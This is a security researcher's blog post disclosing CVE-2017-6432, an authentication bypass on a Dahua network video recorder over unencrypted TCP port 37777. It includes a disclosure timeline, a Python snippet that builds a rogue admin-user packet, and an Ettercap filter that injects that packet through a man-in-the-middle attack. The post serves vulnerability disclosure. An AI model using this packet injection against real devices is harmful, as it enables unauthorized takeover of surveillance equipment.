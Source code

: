 ```yaml
---
layout: post
title:  "Dahua NVR - Auth Bypass - CVE-2017-6432 "
date:   2017-03-09 21:00:00 +1100
categories: exploit dahua
---
```

### Introduction
After discovering the Exposures identified [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream
#### Disclosure Timeline
- 2017-02-24: Vulnerability Discovered
- 2017-03-02: Proof of Concept Written
- 2017-03-02: Dahua Contacted with plan to disclose on March 9th unless they wished otherwise.
- 2017-03-07: Dahua Responded with timeline to fix CVE-2017-6341, CVE-2017-6342, CVE-2017-6343
- 2017-03-07: Requested response for this: CVE-2017-6432 again
- 2017-03-09: Full Disclosure
### The Hardware and Software
- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android
### The method
When the Dahua Software (Mobile Phone application, or Desktop application, as identified above) connects to the NVR, it creates a TCP Connection to Socket 37777.  
This TCP Connection must be authorised before the NVR will respond.  
Without a valid authrorisation sending any data to this port, will cause the NVR to close the connection.  
As there is no encryption, any data transmitted over this connection is exposed to being read via a Man in the Middle attack, as identified in my previous report [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
This in turn, makes this connection vulnerable to both packet manipulation and packet injection.
The Proof of Concept has been performed using Ettercap, an Ettercap Filter, and Ettercap to perform the Man in the Middle attack.  
### Proof of Concept
First, we need to generate the packet for a new user.
```python
newuser="null"
newpass="ku7"
content = "0:" + newuser + ":" + newpass + ":1:1::1"
length = chr(len(content))
payload = "\xa6\x00\x00\x00" + length + "\x00\x00\x00\x06" + "\x00"*23 + content
```
The :1:1::1 following the username and password is the groups and permissions, this is a basic account with admin rights, which can only modify configuration.  Whatever permissions and groups that are wanted, simply replace that.  
The 0: at the start is the user id.  A 0 causes the NVR to automatically assign the next free user ID to the new user.
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.17.05 pm.png){:class="img-responsive"}
Now that we have our content, the following ettercap filter is used.  
What the packtet is I am detecting doesn't matter, as I am actually going to tack my payload (which is normally a full packet) straight onto the end of the original packet, and it will work just fine!  
```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    inject("/root/etter/newuser.packet");
    exit();
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.05.25 pm.png){:class="img-responsive"}
Now, Load this up into ettercap, do our magic, and have a peek at what happens
I hear you... That packet will be the wrong size, checksum won't match, the world will fall over.
You should drop or replace contents.  
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.25.37 pm.png){:class="img-responsive"}
Yes, I should have to do something better than this... but I don't!
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.27.29 pm.png){:class="img-responsive"}
Originally I did this by replacing the packet contents, as well as other ways.  As long as you inject into the stream, it will work
![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}
### Additional Notes
While this proof of concept is only for injecting a user, it could be used for much more.
### Workarounds
There are none, this is insecure by design.  
Until proper encryption is used, these are vulnerable.  
If you intend to use any Dahua equipment on an untrusted network, they should be accessed only using an encrypted tunnel of some sort.  
### Vendor Response
Will update this when they do.  
7 days was given for a response, while correspondance did occur, this exploit was not covered.  
Due to the logical step from the last exposures to this one, Full Disclosure is applied.
### Credits
Vulnerability discovered by Andrew Frahn (null_ku7)
### References
CVE-2017-6341, CVE-2017-6342, CVE-2017-6343: [https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
